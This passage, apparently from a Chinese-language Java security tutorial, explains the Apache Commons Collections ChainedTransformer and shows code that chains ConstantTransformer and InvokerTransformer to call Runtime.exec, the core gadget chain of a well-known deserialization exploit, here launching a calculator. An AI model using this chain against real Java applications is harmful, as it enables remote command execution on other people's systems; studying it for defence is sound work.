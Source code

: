 上述实例演示了通过`InvokerTransformer`的反射机制来调用`java.lang.Runtime`来实现命令执行，但在真实的漏洞利用场景我们是没法在调用`transformer.transform`的时候直接传入`Runtime.getRuntime()`对象的。

## ChainedTransformer

`org.apache.commons.collections.functors.ChainedTransformer`类实现了`Transformer`链式调用，我们只需要传入一个`Transformer`数组`ChainedTransformer`就可以实现依次的去调用每一个`Transformer`的`transform`方法。

**`ChainedTransformer.java`:**

```java
public class ChainedTransformer implements Transformer, Serializable {
  
  /** The transformers to call in turn */
  private final Transformer[] iTransformers;
  
  // 省去多余的方法和变量
  
  public ChainedTransformer(Transformer[] transformers) {
    super();
    iTransformers = transformers;
  }
  
  public Object transform(Object object) {
      for (int i = 0; i < iTransformers.length; i++) {
          object = iTransformers[i].transform(object);
      }
      return object;
  }
  
}
```

**使用`ChainedTransformer`实现调用本地命令执行方法：**

```java
public static void main(String[] args) {
  	// 定义需要执行的本地系统命令
		String cmd = "open -a Calculator.app";
  
		Transformer[] transformers = new Transformer[]{
				new ConstantTransformer(Runtime.class),
				new InvokerTransformer("getMethod", new Class[]{
						String.class, Class[].class}, new Object[]{
						"getRuntime", new Class[0]}
				),
				new InvokerTransformer("invoke", new Class[]{
						Object.class, Object[].class}, new Object[]{
						null, new Object[0]}
				),
				new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{cmd})
		};

		// 创建ChainedTransformer调用链对象
		Transformer transformedChain = new ChainedTransformer(transformers);
		
  	// 执行对象转换操作
  	transformedChain.transform(null);
}
```
